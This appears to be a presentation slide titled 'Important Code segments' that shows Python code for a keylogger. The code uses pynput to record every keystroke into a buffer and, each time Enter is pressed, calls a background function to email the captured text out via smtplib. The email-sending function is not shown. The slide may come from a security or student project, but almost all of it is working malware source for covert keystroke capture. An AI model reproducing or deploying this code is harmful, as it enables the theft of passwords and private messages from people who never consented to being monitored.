

Important Code segments
Python Libraries
import smtplib
from pynput import keyboard
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
import threading
import time
//Waiting for capture keystrokes//
def on_press(key):
    global result, stop_listener
    try:
        with lock:
            result += key.char
    except AttributeError:
        with lock:
            if key == keyboard.Key.space:
                result += " "
            elif key == keyboard.Key.enter:
                send_email_in_background(result)  # Send email when Enter key is pressed
                result = ""  # Clear the result after sending email
            elif key == keyboard.Key.esc:
                stop_listener = True  # Stop the listener when Escape key is pressed
            else:
                result += f" {key} "
    print(result)